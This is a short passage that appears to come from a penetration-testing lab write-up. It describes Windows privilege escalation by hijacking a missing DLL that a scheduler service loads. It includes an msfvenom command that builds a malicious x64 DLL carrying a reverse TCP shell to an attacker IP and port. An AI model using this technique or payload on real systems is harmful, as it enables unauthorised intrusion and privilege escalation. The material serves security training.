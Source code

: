 PowerUp won't find anything.

We have a service: *C:\Scheduler\scheduler.exe* that has a dependency **customlib.dll**.

We will get the executable on our machine and analyze it for DLL hijacking.
Check this: <https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#finding-missing-dlls>
We will find:

**beyondhelper.dll** is missing.
We will create a malicious DLL (make sure to use x64 arch).
![unnamed_bdd640fb06674ad19c80317fa3b1799d](unnamed_bdd640fb06674ad19c80317fa3b1799d.png)

```sh
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.227 LPORT=80 -f dll -o beyondhelper.dll
```

